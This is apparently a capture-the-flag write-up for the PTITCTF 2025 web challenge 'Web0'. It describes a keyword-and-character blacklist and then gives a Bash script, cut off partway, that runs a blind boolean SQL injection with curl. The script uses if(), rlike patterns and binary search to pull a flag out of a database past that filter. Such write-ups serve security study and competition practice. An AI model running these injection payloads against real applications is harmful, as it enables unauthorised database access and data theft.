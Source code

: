 ```yaml
---
title: WEB - PTITCTF 2025 Preliminary Round
published: 2025-08-27
description: This is our local CTF competition at our Institute. I participated in the Web Exploitation category, and this is my write-up.
image: "./ptitctf.png"
tags: [CTF, Web Exploitation, Exploit, PTIT, PTITCTF, SVATTT]
category: Web Exploitation
draft: false
---
```


# PTITCTF

# Web0 - Medium

Source code:

<img width="1568" height="510" alt="image" src="https://github.com/user-attachments/assets/d6fe558b-cd06-4e72-8bd5-8227d6d398ea" />  

In function `check()` will block:

- Space, `/` and `\`, comment `- # /*`.
- Keywords: `information|schema|substr|left|right|ascii|hex|...`
- Single character: `b|y|z|_` and `x` (appears alone).

Consequences:

- Can not use space or comment.
- Can not access `information_schema`.
- Can not use `substr/left/right/ascii/hex`.
- Avoid appearing directly `b,y,z,x,_` in user’s input.

This is my Bash script to solve this challenge:

```bash
host='http://103.197.184.163:12113'

HIT(){ curl -s "$host/?user=admin&pass=%27or(if($1,1,0))or%271%27%3D%272" | grep -q 'welcome'; }

T(){ i=$1; cls=$2; pat="%5E%2E%7B$((i-1))%7D$cls"; HIT "%28select%28min%28flag%29%29from%60flag%60%29rlike%27$pat%27"; }

digit_at(){
  i=$1; lo=0; hi=9
  while [ $lo -lt $hi ]; do
    mid=$(( (lo+hi)/2 ))
    set1=$(printf '%%5B0-%d%%5D' "$mid")
    if T "$i" "$set1"; then hi=$mid; else lo=$((mid+1)); fi
  done
  printf '%d' "$lo"
}

lower_aw_at(){
  i=$1

  if   T "$i" %5Ba-g%5D; then L=a; R=g
  elif T "$i" %5Bh-n%5D; then L=h; R=n
  else                    L=o; R=w
  fi

  for blk in a-c d-f g h-j k-m n-p q-s t-v w; do
    case "$blk" in
```